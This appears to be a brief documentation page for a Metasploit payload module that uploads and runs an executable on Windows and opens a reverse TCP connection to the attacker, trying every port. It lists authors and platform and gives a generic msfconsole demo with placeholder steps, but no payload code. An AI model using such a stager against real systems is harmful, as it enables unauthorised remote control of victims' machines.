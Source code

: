 ## Windows Upload/Execute, Reverse All-Port TCP Stager

Uploads an executable and runs it (staged). Try to connect 
back to the attacker, on all possible ports (1-65535, 
slowly)


## Module Name
payload/windows/upexec/reverse_tcp_allports

## Authors
* vlad902
* sf
* hdm
* skape





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/upexec/reverse_tcp_allports
msf payload(reverse_tcp_allports) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_allports) > set TARGET <target-id>
msf payload(reverse_tcp_allports) > show options
   ... show and set options ...
msf payload(reverse_tcp_allports) > run
```
    
    